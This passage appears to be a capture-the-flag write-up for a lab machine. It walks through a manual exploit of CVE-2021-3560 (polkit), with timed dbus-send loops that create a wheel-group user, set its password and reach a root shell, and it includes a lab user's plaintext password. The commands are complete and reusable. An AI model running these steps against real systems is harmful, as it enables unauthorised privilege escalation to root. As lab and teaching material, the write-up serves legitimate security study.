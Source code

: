 ```bash
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      - 
```

```bash
./linpeas.sh
[... snip ...]
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version
Sudo version 1.8.29

Vulnerable to CVE-2021-3560
```

Google for `cve-2021-3560 github` and we find a lot of POCs, download one and try it out. The exploit will work as intended, a user is created, however we are not able to login as that user. 
Instead, try to exploit it manually. 

> "To avoid repeatedly triggering the authentication dialog box (which can be annoying), I recommend running the commands from an SSH session"

**Manual exploit of CVE-2021-3560:**
```bash
[dwight@paper shm]$ ssh localhost
dwight@localhosts password: Queenofblad3s!23

[dwight@paper shm]$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:playerthree string:”PlayerThree” int32:1

real	0m0.007s
user	0m0.003s
sys	0m0.003s
[dwight@paper shm]$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:playerthree string:”PlayerThree” int32:1

real	0m0.006s
user	0m0.001s
sys	0m0.004s
[dwight@paper shm]$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:playerthree string:”PlayerThree” int32:1

real	0m0.007s
user	0m0.002s
sys	0m0.004s
```

The time is around 6-7 milliseconds, meaning we need to kill the `dbus-send` command after approximately 3 milliseconds.
```bash
[dwight@paper shm]$ for i in {1..50} ; do dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:playerthree string:”PlayerThree” int32:1 & sleep 0.003s ; kill $! ; done

[dwight@paper shm]$ id playerthree
uid=1005(playerthree) gid=1005(playerthree) groups=1005(playerthree),10(wheel)

[dwight@paper shm]$ for i in {1..50} ; do dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1005 org.freedesktop.Accounts.User.SetPassword string: string:GoldenEye & sleep 0.003s ; kill $! ; done

[dwight@paper shm]$ su playerthree -c 'sudo su'
Password: 
[root@paper shm]# id
uid=0(root) gid=0(root) groups=0(root)
```